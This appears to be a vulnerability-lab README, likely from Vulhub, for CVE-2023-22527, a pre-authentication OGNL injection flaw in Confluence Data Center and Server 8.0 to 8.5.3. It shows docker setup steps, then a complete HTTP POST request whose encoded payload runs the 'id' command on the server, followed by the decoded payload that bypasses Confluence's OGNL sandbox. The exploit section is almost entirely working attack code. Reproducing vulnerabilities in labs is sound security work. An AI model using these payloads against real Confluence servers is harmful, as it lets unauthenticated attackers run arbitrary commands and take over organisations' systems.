

# Confluence Pre-Auth Remote Code Execution via OGNL Injection (CVE-2023-22527)

[中文版本(Chinese version)](README.zh-cn.md)

Confluence is a web-based corporate wiki developed by Australian software company Atlassian.

A OGNL injection vulnerability on versions (8.0 to 8.5.3) of Confluence Data Center and Server allows an unauthenticated attacker to achieve RCE on an affected instance.

References:

- <https://confluence.atlassian.com/security/cve-2023-22527-rce-remote-code-execution-vulnerability-in-confluence-data-center-and-confluence-server-1333990257.html>
- <https://blog.projectdiscovery.io/atlassian-confluence-ssti-remote-code-execution/>

## Vulnerable Environment

Execute following command to start a Confluence Server 8.5.3:

```
docker compose up -d
```

After the environment starts, visit ``http://your-ip:8090`` and you will see the installation guide, select "Trial installation", then you will be asked to fill in the license key. You should apply for a Confluence Server test certificate from Atlassian.

Following [this guide](https://github.com/vulhub/vulhub/tree/master/confluence/CVE-2019-3396) to complete the installation.

On the database configuration page, fill in the form with database address `db`, database name `confluence`, username `postgres`, password `postgres`.


## Exploit

Simplely send following request to execute arbitrary commands inside an craft OGNL expression and get the response:

```
POST /template/aui/text-inline.vm HTTP/1.1
Host: localhost:8090
Accept-Encoding: gzip, deflate, br
Accept: */*
Accept-Language: en-US;q=0.9,en;q=0.8
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/119.0.6045.159 Safari/537.36
Connection: close
Cache-Control: max-age=0
Content-Type: application/x-www-form-urlencoded
Content-Length: 285

label=\u0027%2b#request\u005b\u0027.KEY_velocity.struts2.context\u0027\u005d.internalGet(\u0027ognl\u0027).findValue(#parameters.x,{})%2b\u0027&x=@org.apache.struts2.ServletActionContext@getResponse().setHeader('X-Cmd-Response',(new freemarker.template.utility.Execute()).exec({"id"}))
```



After the version 7.18.0, Confluence introduced a `isSafeExpression` function to protect OGNL injection. Security researcher [Alvaro Muñoz](https://github.blog/2023-01-27-bypassing-ognl-sandboxes-for-fun-and-charities/) find a way to bypass it through `#request['.KEY_velocity.struts2.context'].internalGet('ognl').findValue(String, Object)`, the full decoded payloads are here:

```
'+(#request['.KEY_velocity.struts2.context'].internalGet('ognl').findValue(@org.apache.struts2.ServletActionContext@getResponse().setHeader('X-Cmd-Response',(new freemarker.template.utility.Execute()).exec({"id"})),{}))+'
```
